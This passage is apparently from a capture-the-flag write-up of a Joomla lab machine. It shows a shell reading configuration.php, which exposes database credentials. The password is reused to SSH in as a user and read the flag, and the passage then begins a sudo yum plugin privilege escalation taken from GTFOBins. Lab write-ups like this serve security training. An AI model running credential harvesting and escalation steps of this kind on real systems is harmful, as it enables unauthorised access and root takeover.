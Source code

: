 The configuration.php file seems of interest.

```
bash-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
        public $offline = '0';

        -- SNIP --

        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
        public $gzip = '0';
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
        public $ftp_host = '127.0.0.1';
        public $ftp_port = '21';

```


A public password of 'nv5uz9r3ZEDzVjNu' can be seen in the configuration, this could be used to login to the jjameson account. 

```
ssh jjameson@10.10.135.177

jjameson@10.10.135.177's password:

Last login: Mon Dec 16 05:14:55 2019 from netwars

[jjameson@dailybugle ~]$ ls

user.txt

[jjameson@dailybugle ~]$ cat user.txt

27a260fe3cba712cfdedb1c86d80442e
```

$ sudo -l

Used yum gtfobins to escalate privileges 

https://gtfobins.github.io/gtfobins/yum/

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

```